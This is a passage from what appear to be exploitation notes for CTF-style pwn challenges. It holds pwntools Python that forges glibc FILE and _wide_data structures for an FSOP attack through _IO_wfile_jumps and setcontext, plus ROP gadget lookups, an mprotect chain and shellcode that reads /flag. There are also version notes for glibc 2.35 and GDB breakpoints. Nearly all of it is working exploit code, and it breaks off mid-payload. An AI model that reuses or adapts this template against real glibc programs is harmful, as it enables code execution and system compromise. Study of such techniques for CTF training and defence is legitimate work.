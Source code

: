 ```python
        0x20: 0,	# _IO_write_base
        0x28: 1,	# _IO_write_ptr 
        0x88: fakeIO_addr,	# _lock
        0xa0: fakeIO_addr+0x100,	# _wide_data = rdx
        0xd8: _IO_wfile_jumps   	# vtable
    },
    # fake_IO->_wide_data
    0x100: { 
        0x18: 0,    # _IO_write_base
        0x30: 0,    # _IO_buf_base
        0x40: orw_chain,	# mprotect ->
        0xa0: [fakeIO_addr+0x300, ret],	# setcontext ->
        0xe0: fakeIO_addr+0x200   # _wide_vtable
    },
    # fake_IO->wide_data->_wide_vtable
    0x200: {
        # <+61>:  mov rsp, [rdx+0xa0]
        # <+294>: mov rcx, [rdx+0xa8]
        # <+301>: push rcx
        # <+334>: ret
        0x68: setcontext  # __doallocate
    },
    0x300: {
        0x0: mprotect_chain,
    }
}, filler='\0')
```

- Overwriting `_lock` pointer is not necessary in most cases. 
- `_IO_write_base` & `_IO_buf_base` at **fake_IO->_wide_data** not necessary.
- GDB Breakpoints: `*_IO_wdoallocbuf`, `*_IO_wdoallocate` (`*_IO_wdefault_doallocate`).

#### GG | svcudp_reply+26

**Version**: < GLIBC 2.35, or Ubuntu GLIBC 2.35-0ubuntu3.8.

```python
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']
svcudp_reply 	= libc_base + 0x16a06a
rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
add_rsp_0x28_r  = libc_base + 0x0000000000045f25
add_rsp_0xa8_r  = libc_base + 0x00000000000434a7
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(setcontext)

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                  p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x140]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO  
    0: {  
        0x0:  0,	# _flag
```